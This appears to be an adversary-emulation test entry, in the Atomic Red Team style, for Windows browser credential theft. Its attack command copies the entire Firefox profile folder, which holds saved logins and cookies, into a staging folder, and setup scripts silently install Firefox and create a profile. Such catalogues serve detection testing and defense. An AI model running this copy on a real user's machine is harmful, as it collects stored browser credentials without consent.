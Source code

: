 **Supported Platforms:** Windows


**auto_generated_guid:** eb8da98a-2e16-4551-b3dd-83de49baa14c






#### Attack Commands: Run with `powershell`! 


```powershell
Copy-Item "$env:APPDATA\Mozilla\Firefox\Profiles\" -Destination "PathToAtomicsFolder\..\ExternalPayloads" -Force -Recurse
```

#### Cleanup Commands:
```powershell
Remove-Item -Path "PathToAtomicsFolder\..\ExternalPayloads\Profiles" -Force -ErrorAction Ignore -Recurse
```



#### Dependencies:  Run with `powershell`!
##### Description: Firefox must be installed
##### Check Prereq Commands:
```powershell
if ((Test-Path "C:\Program Files\Mozilla Firefox\firefox.exe") -Or (Test-Path "C:\Program Files (x86)\Mozilla Firefox\firefox.exe")) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
if ($env:PROCESSOR_ARCHITECTURE -eq 'AMD64') {$url="https://download.mozilla.org/?product=firefox-latest-ssl&os=win64&lang=en-US"}else {$url="https://download.mozilla.org/?product=firefox-latest-ssl&os=win&lang=en-US"}
$installer = "PathToAtomicsFolder\..\ExternalPayloads\firefoxsetup.exe"
(New-Object Net.WebClient).DownloadFile($url,$installer)
Start-Process $installer -ArgumentList '/S' -Wait
```
##### Description: Firefox login data file must exist
##### Check Prereq Commands:
```powershell
if (Test-Path "$env:APPDATA\Mozilla\Firefox\Profiles\") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
if ($env:PROCESSOR_ARCHITECTURE -eq 'AMD64') {$firefox="C:\Program Files\Mozilla Firefox\firefox.exe"}else {$firefox="C:\Program Files (x86)\Mozilla Firefox\firefox.exe"}
Start-Process $firefox -ArgumentList '-CreateProfile Atomic' -Wait
Start-Process $firefox -NoNewWindow
Start-Sleep -s 20
Stop-Process -Name firefox
```
